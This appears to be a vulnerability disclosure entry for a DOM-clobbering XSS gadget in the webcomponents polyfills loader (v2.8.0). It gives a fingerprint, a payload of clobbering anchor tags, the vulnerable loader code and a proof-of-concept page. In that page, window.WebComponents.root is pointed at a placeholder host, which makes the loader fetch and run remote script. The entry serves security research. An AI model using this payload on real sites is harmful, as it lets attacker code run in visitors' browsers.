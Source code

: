 ## polyfills

### Meta

+ Library: polyfills
+ Stars: 1.1K
+ Version: v2.8.0
+ Fingerprint: `window.WebComponents !== 'undefined'`
+ Payload: ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: Flow

### Library

URL: https://github.com/webcomponents/polyfills

### Vulnerable Code Snippet

```javascript
  var name = 'webcomponents-loader.js';
  // Feature detect which polyfill needs to be imported.
  var polyfills = [];
  if (
    !(
      'attachShadow' in Element.prototype && 'getRootNode' in Element.prototype
    ) ||
    (window.ShadyDOM && window.ShadyDOM.force)
  ) {
    polyfills.push('sd');
  }
```

```javascript
if (polyfills.length) {
  var url;
  var polyfillFile = 'bundles/webcomponents-' + polyfills.join('-') + '.js';

  // Load it from the right place.
  if (window.WebComponents.root) {
    url = window.WebComponents.root + polyfillFile;
    if (
      window.trustedTypes &&
      window.trustedTypes.isScriptURL(window.WebComponents.root)
    ) {
      url = policy.createScriptURL(url);
    }
  } 
  ...
  var newScript = document.createElement('script');
  newScript.src = url;
}
```

## PoC

```html
<!DOCTYPE html>
<html>
<head>
  <title>Polyfills Example</title>
</head>

<a id="ShadyDOM"></a>
<a id="ShadyDOM" name="force"></a>
<a id="WebComponents"></a>
<a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>

<script src="./webcomponents-loader.js"></script>

<body>
</body>
</html>
```
